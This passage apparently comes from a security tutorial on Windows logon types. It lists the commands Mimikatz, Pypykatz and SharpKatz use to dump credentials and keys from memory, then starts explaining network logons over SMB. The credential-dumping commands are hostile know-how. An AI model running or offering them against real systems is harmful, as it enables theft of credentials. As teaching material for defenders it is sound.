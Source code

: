 **Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands for extracting the credentials.

```
privilege::debug
sekurlsa::ekeys

```

![](https://static.wixstatic.com/media/8b80b6_abdbf9a4d5144bc38706e90d2984db85~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

**Using Pypykatz**

We can use the below mentioned [Pypykatz](https://github.com/skelsec/pypykatz) commands for extracting the credentials.

```
pypykatz.exe live lsa

```

![](https://static.wixstatic.com/media/8b80b6_715831ca1696456093da7a3f27498112~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Pypykatz

**Using Sharpkatz**

We can use the below mentioned [Sharpkatz](https://github.com/b4rtik/SharpKatz) commands for extracting the credentials.

```
SharpKatz.exe --Command ekeys

```

![](https://static.wixstatic.com/media/8b80b6_c3849c662f0b4819a1b24c88bd8ff232~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Sharpkatz

### **Logon Type 3 : Network**

Logon Type 3 event is generated when a user logon at the machine over the network. Commonly for accessing shared resources. For example when we access a shared folder, connects to the machine via WinRM (Windows Remote Management protocol), PSRemoting (PowerShell Remoting) or using WMI (Windows Management Instrumentation) etc.

**Accessing Shared Files/Folders**

As per [Microsoft docs](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) "The Server Message Block (SMB) Protocol is a network file sharing protocol, and as implemented in Microsoft Windows is known as Microsoft SMB Protocol. The set of message packets that defines a particular version of the protocol is called a dialect. The Common Internet File System (CIFS) Protocol is a dialect of SMB. Both SMB and CIFS are also available on VMS, several versions of Unix, and other operating systems."
